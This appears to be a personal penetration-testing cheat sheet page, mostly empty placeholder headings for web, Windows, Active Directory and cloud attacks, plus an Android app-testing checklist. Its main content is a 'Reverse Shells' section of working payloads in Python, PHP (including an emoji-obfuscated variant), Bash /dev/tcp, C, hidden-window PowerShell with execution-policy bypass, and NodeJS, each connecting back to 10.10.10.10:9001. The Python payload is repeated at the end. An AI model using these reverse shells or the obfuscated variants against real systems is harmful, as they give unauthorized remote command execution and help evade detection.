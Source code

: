 ```yaml
---
layout: page
title: "/brainbox"
permalink: /brainbox/
---
```


# INFASTRUCTURE

<details><summary> <b>API</b> </summary><blockquote>
  <details><summary>REST</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>SOAP</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>


<details><summary> <b>WEB</b> </summary><blockquote>
    <br/>
Start with automated tools to search for low hanging fruits 
   Burpsuite Scanner
   OWASP Zap 
   Accunetix
   Nikto 
   
   
  <details><summary>SQLi</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>SSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>IDOR</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>XSS</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>BAC</summary><blockquote>
        Broken Access Control
    :smile:
  </blockquote></details>
    <details><summary>XXE</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>SDE</summary><blockquote>
        secure data exposure
    :smile:
  </blockquote></details>
    <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>CSRF</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>MOBILE</b> </summary><blockquote>
  <details><summary>Android</summary><blockquote>
    ### Checklist
    <br>
1. unzip -d and apktool -d both (different outputs at time)
    <br>
2. check for /assets and /res/raw (api keys, encryption keys)
<br>
    
3. sensitive files and external storage (world readable  & writeable)
    <br>
4. executables & log files on external storage
    <br>
5. look at manifest (WRITE_EXTERNAL_STORAGE)., grep for "getExternal"
    <br>
6. check for installed package "vnd.android.package-archive" (they want to install something)
    <br>
7. hidden directories (.folder)
    <br>
8. api keys saved as bytearray to obfuscate
    <br>
9. identify crypto & understand it
    <br>
10. webSettings.setJavaScriptEnabled(True); means we might be able to XSS
    <br>
11. interesting options: "setAllowContent", "setAllowFileAccess", "setAllowFileAccessFromFileURILS", "setAllowUniversalAccessFromFileURLs", "setJavaScriptEnabled", "setPluginState", "setSavePassword"
    <br>
12. overwriting ssl errors :facepalm:
    <br>
13. xss might allow to call Runtime.getRuntime().exec() (CVE-2012-6636) <= Api17
      <br>                                                                     
14. use Mitm Proxy (mitm.it has the cert)
      <br>                                                                     
    :smile:
  </blockquote></details>
  <details><summary>iOS</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>*NIX</b> </summary><blockquote>
  <details><summary>Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>Privilege Escalation</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>Post Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>WINDOWS</b> </summary><blockquote>
  <details><summary>Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>Privilege Escalation</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>Post Exploitation</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>

<details><summary> <b>ACTIVE DIRECTORY</b> </summary><blockquote>
  <details><summary>Initial Access</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>Domain Enumeration And Attack</summary><blockquote>
    :smile:
  </blockquote></details>
    <details><summary>Lateral Movements</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>
<br/>

<details><summary> <b>CLOUD</b> </summary><blockquote>
  <details><summary>AZURE</summary><blockquote>
    :smile:
  </blockquote></details>
  <details><summary>AWS</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>

<br/>
<details><summary> <b>SHELLS</b> </summary><blockquote>
  <details><summary>Reverse Shells</summary><blockquote>
#### Python
```python
  python -c 'import pty;pty.spawn("/bin/bash")';
```
    
#### Python
```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
    
#### PHP
```php
    php -r '$sock=fsockopen("10.10.10.10",9001);system("sh <&3 >&3 2>&3");'
```
    
#### Bash
```bash
    sh -i >& /dev/tcp/10.10.10.10/9001 0>&1
 ```
    
#### PHP Emoji
```php
    php -r '$ð="1";$ð="2";$ð
="3";$ð="4";$ð="5";$ð="6";$ð="7";$ð="8";$ð="9";$ð="0";$ð¤¢=" ";$ð¤="<";$ð¤ =">";$ð±="-";$ðµ="&";$ð¤©="i";$ð¤=".";$ð¤¨="/";$ð¥°="a";$ð="b";$ð¶="i";$ð="h";$ð="c";$ð¤£="d";$ð="e";$ð="f";$ð="k";$ð="n";$ð="o";$ð="p";$ð¤="s";$ð="x";$ð = $ð. $ð¤. $ð. $ð. $ð. $ð. $ð. $ð. $ð;$ð = "10.10.10.10";$ð» = 9001;$ð = "sh". $ð¤¢. $ð±. $ð¤©. $ð¤¢. $ð¤. $ðµ. $ð
. $ð¤¢. $ð¤ . $ðµ. $ð
. $ð¤¢. $ð. $ð¤ . $ðµ. $ð
;$ð¤£ =  $ð($ð,$ð»);$ð½ = $ð. $ð. $ð. $ð;$ð½($ð);'
```
    
#### C
```c
    #include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 9001;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("10.10.10.10");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"sh", NULL};
    execve("sh", argv, NULL);

    return 0;       
}
```
    
#### Powershell
    
```powershell
    powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
 ```

#### NodeJS
```javascript
    (function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(9001, "10.10.10.10", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```
    
    
    :smile:
  </blockquote></details>
  <details><summary>Web Shells</summary><blockquote>
    :smile:
  </blockquote></details>
</blockquote></details>


<br/>
<br/>


```python
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```
